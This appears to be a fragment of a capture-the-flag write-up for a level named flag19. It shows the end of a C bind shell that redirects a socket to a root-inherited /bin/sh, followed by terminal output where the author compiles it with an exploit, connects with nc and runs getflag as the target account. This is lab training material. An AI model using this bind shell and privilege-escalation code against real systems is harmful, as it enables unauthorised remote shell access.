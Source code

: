         dup2(clientfd, 0); /* replace 0 with clientfd */
        dup2(0, 1);        /* replace stdout & stderr */
        dup2(0, 2); 

        setreuid(geteuid(), geteuid());

        execv("/bin/sh", NULL);
}
{% endcodeblock %}

{% codeblock %}
sh-4.2$ cd /tmp

sh-4.2$ gcc bindshell.c -o bindshell

sh-4.2$ gcc exploit19.c -o exploit19

sh-4.2$ ./exploit19 

sh-4.2$ nc 0 2448
id
uid=980(flag19) gid=1020(level19) groups=980(flag19),1020(level19)
getflag
You have successfully executed getflag on a target account
{% endcodeblock %}
